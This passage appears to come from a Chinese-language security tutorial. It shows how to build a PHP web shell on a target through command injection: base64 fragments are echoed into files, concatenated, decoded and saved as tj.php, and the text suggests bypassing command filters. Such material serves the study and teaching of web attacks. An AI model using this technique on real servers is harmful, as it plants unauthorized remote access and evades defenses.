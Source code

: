 ```
echo -n Wz>m;
echo -n Ey>n;
echo -n M1>o;
echo -n 0p>p;
echo -n Oz>q;
echo -n 8+>r;
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicPxUoWicElZRwFFhNtEm7GPUfaEUxuogbmF5eYBBXmaEo9fTtTnoRLhA/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicdI7rLHWJWteyIdsj3lWwTfIxRYvoIkhSg8oDmE59qRaN46Iibakaq7w/640?wx_fmt=png)  
然后组合 base64 解码并生成 php 文件

```
cat a b>s;
cat s c>b;
cat b d>s;
cat s e>a;
cat a f>s;
cat s g>a;
cat a h>s;
cat s i>a;
cat a j>s;
cat s k>a;
cat a l>s;
cat s m>a;
cat a n>s;
cat s o>a;
cat a p>s;
cat s q>a;
cat a r>s;
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicaPpoHovAb7fLXibAnB5WzrABWGWOr7xrQibUBuCF5xKeMwJUYJxujGqg/640?wx_fmt=png)

```
base64 -d s>z;
cp z tj.php;
```

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicRyolaj81jDJ9jrcHicnrZAIB67H39aPpdibzTuVyvOXvDyofrvWGuMlQ/640?wx_fmt=png)  
![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcra4RrSyWG2ic8Uibq6tugDvicQveUIoLegbvlJma8RtL4xfMOIvJdiaDlvCKKagy4wYQy1qpTeWEA9ZQ/640?wx_fmt=png)

  
大体思路就是用 echo 不断写入或者也可以用 >> 来追加写入，拼接成一个文件，最后 cp 或者 mv 成一个文件  
echo -n 是令其后面不会加入自动换行，方便拼接。

逐步解释要写很多，建议有点懵的哥哥一句一句执行，然后依次查看结果

那在写 shell 的时候命令被过滤了怎么办呢，那就回到刚才的办法中尝试绕过啦

**总结**
------
